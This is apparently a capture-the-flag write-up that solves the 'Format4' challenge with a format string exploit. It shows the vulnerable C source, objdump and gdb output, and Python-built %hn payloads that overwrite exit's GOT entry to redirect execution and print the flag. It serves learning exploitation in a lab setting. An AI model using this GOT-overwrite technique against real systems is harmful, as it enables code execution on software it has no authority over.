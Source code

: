 ```yaml
---
title:  "Writeup: Format4"
date:   2019-04-22 14:00:00
categories: writeup
author: Tim Winters
layout: post
---
```


```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void hello()
{
  printf("code execution redirected! you win\n");

  char flagBuffer[64];
  FILE *fp;
  fp = fopen("./flag.txt", "r");
  fgets(flagBuffer, 64, (FILE *) fp);
  printf("flag: %s\n", flagBuffer);

  _exit(1);
}

void vuln()
{
  char buffer[512];

  fgets(buffer, sizeof(buffer), stdin);

  printf(buffer);

  exit(1);
}

int main(int argc, char **argv)
{
  vuln();
}
```

It is obvious we need to call `hello`, but it won't be as easy as overwriting the return address, since the `exit` function is called, and we never return to `main`. 

The hint for this challenge is 
> What is the global offset table?

The Global Offset Table is, as I understand it, a middleman to connect our executable with the standard C library. For example, when we call `printf`, instead of including all the code in our binary, we use the library function. 

We could hard code the address of `printf` into our binary, but then any time stdlib changed, we would need to recompile our binary. 

Instead, we rely on the linker/loader to populate the `got` with the address of `printf`. 

---
Now that we understand the `got`, we can start our attack. The goal is to overwrite the address of `exit` with the address of `hello`, so that at the end of `vuln` we redirect there. 

Because the name of the challenge is "format4" we will use a format string exploit. In particular, we will use the `%n` specifier to overwrite the address of `exit`. 

---
## The Solution
Let's begin by determining the address we need to overwrite. 

To find the address, we can use `objdump`

```
> objdump -TR format4

format4:     file format elf32-i386

DYNAMIC SYMBOL TABLE:
00000000      DF *UND*	00000000  GLIBC_2.0   printf
00000000      DF *UND*	00000000  GLIBC_2.0   _exit
00000000      DF *UND*	00000000  GLIBC_2.0   fgets
00000000      DF *UND*	00000000  GLIBC_2.0   puts
00000000  w   D  *UND*	00000000              __gmon_start__
00000000      DF *UND*	00000000  GLIBC_2.0   exit
00000000      DF *UND*	00000000  GLIBC_2.0   __libc_start_main
00000000      DF *UND*	00000000  GLIBC_2.1   fopen
0804868c g    DO .rodata	00000004  Base        _IO_stdin_used
0804a040 g    DO .bss	00000004  GLIBC_2.0   stdin


DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE
08049ffc R_386_GLOB_DAT    __gmon_start__
0804a040 R_386_COPY        stdin@@GLIBC_2.0
0804a00c R_386_JUMP_SLOT   printf@GLIBC_2.0
0804a010 R_386_JUMP_SLOT   _exit@GLIBC_2.0
0804a014 R_386_JUMP_SLOT   fgets@GLIBC_2.0
0804a018 R_386_JUMP_SLOT   puts@GLIBC_2.0
0804a01c R_386_JUMP_SLOT   exit@GLIBC_2.0
0804a020 R_386_JUMP_SLOT   __libc_start_main@GLIBC_2.0
0804a024 R_386_JUMP_SLOT   fopen@GLIBC_2.1
```
In the second half of the output we can see that `exit` is at `0x0804a01c`. Let's see what is at this address. 

```
gdb-peda$ x/xw 0x0804a01c
0x804a01c:	0x08048406
gdb-peda$ x/xw *0x0804a01c
0x8048406 <exit@plt+6>:	0x00002068
```
So it looks like the entry for `exit` in the `got` points to `exit` in the `plt`. We can overwrite this value to point to the address of `hello` in the `plt`. To get that address, just use `p hello` in `gdb`.

```
gdb-peda$ p hello
$1 = {void ()} 0x804853b <hello>
```

Now we can construct our format string. We need to print  `0x804853b` characters then use `%n`. Plugging that into a calculator we get...134,513,979...I don't think that many characters will fit in the stack...so we need something else. 

Luckily, the `%n` format specifier comes with a friend, `%h`. `%h` lets us write just two bytes at a time, rather than all 4. Now our value will max out at 65535, much more reasonable. 

Let's look at the two addresses again

```
current got entry: 0x804a01c  
target got entry:  0x804853b
```
Lucky for us, the upper two bytes are identical, so we only need to write the lower two bytes. 

`0x853b = 34107`
So we need to write 34107 characters. That's...still too many (at least for python to handle). But there is another way. We can change the width of a single character such that `%n` increments, but our stack doesn't get destroyed. For example, if we do `%34107x` it will print out the next 4 bytes (length of integer) in hexadecimal without `0x` preceding, but padded with blank spaces such that the total length is 34107.

Let's start building our formatted string. 

`\x1c\xa0\x04\x08%34103x%hn`

Notice we use 34103 rather than 34107, becase we must take the 4 bytes of the address into account. 

The `%n` specifier can also take numbers, but they do something a little different. They determine which value on the stack we use as the address. `%1$hn` uses the first value, `%2$hn` uses the second, etc. 

To determine which value we want to use, we need to examine the stack. We can replace the `%hn` with `%x.` (the period acts as aa deliminator) to view the next values on the stack.

```
> python -c "print '\x1c\xa0a\x04\x08%34103x' + '%x.'*10" | ./format4
200f7fc55a0.f7ff010a.804a01c.31343325.25783330.78252e78.2e78252e.252e7825.78252e78.2e78252e.
```
It looks like our output is the 4th value. Let's pop the first 3 off the stack so that our value is the very first one. 

```
------------------------------------------v this is the first one
> python -c "print '\x1c\xa0\x04\x08%34103x' + '%x.'*2 + '%x'" | ./format4
200f7fc55a0.f7ff010a.461a01c.34332508.78333031.252e7825.78252e78.2e78252e.252e7825.78252e78
```
The last `%x` shows our value. If we replace it with `%hn`, it should overwrite the first two bytes at that address. 

```
> python -c "print '\x1c\xa0\x04\x08%34103x' + '%x'*2 + '%hn'" | ./format4
Illegal Instruction (core dumped)
```
hmmm...ah. We didn't reduce our 'counter' to account for the 2 `%x`s we put in before `%hn`. 

```
> python -c "print '\x1c\xa0\x04\x08%34101x' + '%x'*2 + '%hn'" | ./format4
flag: 61e3db641ad7cee82e6dcd73292bfae7
```



